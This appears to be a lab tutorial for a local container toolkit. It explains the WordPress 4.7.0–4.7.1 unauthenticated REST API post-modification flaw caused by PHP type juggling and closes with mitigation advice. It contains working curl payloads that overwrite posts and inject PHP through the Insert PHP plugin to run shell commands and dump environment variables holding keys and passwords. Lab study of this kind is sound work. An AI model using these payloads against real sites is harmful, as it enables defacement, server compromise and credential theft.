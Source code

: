 ## WordPress Remote Post Editing

### Background

WordPress is a Content Management System that is written in PHP. PHP is a very popular language that is primarially used on the web. Unlike other languages, you do not need to declare datatypes in PHP.

Instead, PHP will do its best to guess what type your data is -- this is called [Type Juggling](https://secure.php.net/manual/en/language.types.type-juggling.php).

Example from PHP's documentation:

```php
<?php
  $foo = "1";  // $foo is string (ASCII 49)
  $foo *= 2;   // $foo is now an integer (2)
  $foo = $foo * 1.3;  // $foo is now a float (2.6)
  $foo = 5 * "10 Little Piggies"; // $foo is integer (50)
  $foo = 5 * "10 Small Pigs";     // $foo is integer (50)
?>
```
As you can see in the example above, PHP will actually convert a string to an interger as long as the first character is an integer. This is the foundation of this vulnerability.

Starting in WordPress version 4.7, the new [REST API](https://en.wikipedia.org/wiki/Representational_state_transfer) is enabled by default. With this API, you can do things like edit a blog post by `POST`-ing a json payload to `hostname/?rest_route=/wp/v2/posts/1`

If you `POST` a json payload with a string that begins with a number (`1string`) as the `id`, WordPress skips authentication, PHP converts `1string` string to `1` integer, and replaces the post's body with whatever you passed as the body of your json payload.

### Setup

In order to get started, you will need to start our WordPress image.

```
$ penkit start wordpress:4.7
Creating wordpress_mysql
Creating wordpress
```

You can confirm that your contain started by typing...

```
$ penkit ps
```

You can also `ping` it...

```
$ penkit ping wordpress

```

or fetch it with `curl`.

```
$ penkit curl wordpress
```


### Discovery

Now that your WordPress site is running, it's time to see if it is vulnerable to this attack. We are going to use an excellent tool called WPScan to do this.

```
penkit wpscan -u wordpress
```

You will see a ton of output. Here are the things you should look for.

```
[!] The WordPress 'http://wordpress/readme.html' file exists exposing a version number
[+] WordPress version 4.7 (Released on 2016-12-06) identified from advanced fingerprinting, meta generator, readme, links opml, stylesheets numbers
[!] 18 vulnerabilities identified from the version number
[!] Title: WordPress 4.7.0-4.7.1 - Unauthenticated Page/Post Content Modification via REST API
    Reference: https://wpvulndb.com/vulnerabilities/8734
    Reference: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
    Reference: https://blogs.akamai.com/2017/02/wordpress-web-api-vulnerability.html
    Reference: https://gist.github.com/leonjza/2244eb15510a0687ed93160c623762ab
    Reference: https://github.com/WordPress/WordPress/commit/e357195ce303017d517aff944644a7a1232926f7
    Reference: https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_content_injection
[i] Fixed in: 4.7.2
```

### Exploit

To exploit this vulnerability, we are going to create a json payload and `POST` it to the server. In order for this exploit to work, you must append a string to the end of the `id` of the post that you wish to alter.

```
1string
```

From there, simply replace 'title' and 'content' with anything you'd like. 

Example:

```
$ penkit curl -H "Content-Type: application/json" -X POST -d '{"id":"1string", "title":"Running an old version of WordPress is dangerous...", "content":"You should upgrade!"}' wordpress/?rest_route=/wp/v2/posts/1
```

That's it!

Confirm that you made a change to the page.

```
$ penkit curl wordpress/?p=1 | grep dangerous
```

Of course having a site that is easily vandalized is not good but it could get way, way worse if certain WordPress addons are installed.

If the maintainer of the website has an addon like [Insert PHP](http://www.willmaster.com/software/WPplugins/insert-php-wordpress-plugin.php) (which has over 100k downloads) installed then you can inject
php into the body of the post. From there, you can do a number of things including executing arbitrary commands in the linux terminal, dump php config files, dump ENV variables, and even use php to load a remote payload.

Example: 

You can check out their current directory.

```
$ penkit curl -H "Content-Type: application/json" -X POST -d '{"id":"1string", "title":"Nothing to see here", "content":"[insert_php]$output=shell_exec('ls');echo $output;[/insert_php]"}' wordpress/?rest_route=/wp/v2/posts/1
```

You can have a look at their PHP setup.

```
$ penkit curl -H "Content-Type: application/json" -X POST -d '{"id":"1string", "title":"Nothing to see here", "content":"[insert_php]$output=phpinfo();echo $output;[/insert_php]"}' wordpress/?rest_route=/wp/v2/posts/1
```

Or you can just cut right to the chase and grab API keys and passwords by dumping their ENV variables.

```
$ penkit curl -H "Content-Type: application/json" -X POST -d '{"id":"1string", "title":"Nothing to see here", "content":"[insert_php]$output=shell_exec('env');echo $output;[/insert_php]"}' wordpress/?rest_route=/wp/v2/posts/1
```

When you're done you can clean up `wordpress`, `wordpress_mysql`, and any other penkit containers.

```
$ penkit rm
Are you sure you want to remove 2 containers? [y/N] y
1295f1c3bdbd
ad2362b1f983
```

### Summary

This vulnerability could, at the very least, open a site up to vandalism and, at worst, lead to complete server compromise.

You can mitigate this risk by:

- Upgrading WordPress anytime an update is available.
- Never run pluggins that give content creators control of the backend language (PHP).
- Delete the `readme.html` file from the wordpress directory.

[More information about this vulnerability can be found here.](https://wpvulndb.com/vulnerabilities/8734)
